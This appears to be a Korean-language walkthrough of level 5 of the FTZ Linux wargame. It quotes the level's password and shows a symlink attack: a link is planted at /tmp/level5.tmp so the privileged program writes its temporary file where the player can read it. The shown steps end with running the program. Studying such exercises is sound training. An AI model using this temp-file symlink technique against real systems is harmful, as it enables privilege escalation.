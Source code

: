 ```yaml
---
sort: 5
---
```


# Level 5

```note
id : level5

password : what is your name?
```

```bash
[level5@ftz level5]$ cat hint

/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.
```

level5를 실행시킨 후 /tmp폴더를 살펴보았으나 level5.tmp파일은 보이지 않았다.<br>
임시파일이 프로그램 종료 전에 삭제가 되는 것으로 여겨진다.

```bash
[level5@ftz level5]$ ls -al /tmp
total 8
drwxrwxrwt    2 root     root         4096 Jan  7 20:16 .
drwxr-xr-x   20 root     root         4096 Jan  7 18:41 ..
srwxrwxrwx    1 mysql    mysql           0 Jan  7 18:41 mysql.sock
```

삭제가 되기 전에 파일내용을 낚아채기 위해 symbolic link를 사용했다.<br>
symbolic link는 리눅스에 있는 hyperlink기능으로 아래와 같이 asdf파일을 생성한 후 level5.tmp라는 이름의 symbolic link를 만들어놓으면 level5가 level5.tmp symbolic link를 통해 asdf에 내용물을 작성하게 된다.

```bash
[level5@ftz level5]$ touch /tmp/asdf
[level5@ftz level5]$ ln -s /tmp/asdf /tmp/level5.tmp
[level5@ftz level5]$ ls -al /tmp
total 8
drwxrwxrwt    2 root     root         4096 Jan  7 20:29 .
drwxr-xr-x   20 root     root         4096 Jan  7 18:41 ..
-rw-rw-r--    1 level5   level5          0 Jan  7 20:29 asdf
lrwxrwxrwx    1 level5   level5          9 Jan  7 20:29 level5.tmp -> /tmp/asdf
srwxrwxrwx    1 mysql    mysql           0 Jan  7 18:41 mysql.sock
[level5@ftz level5]$ level5
```

```tip
## 알게 된 점

symbolic link
```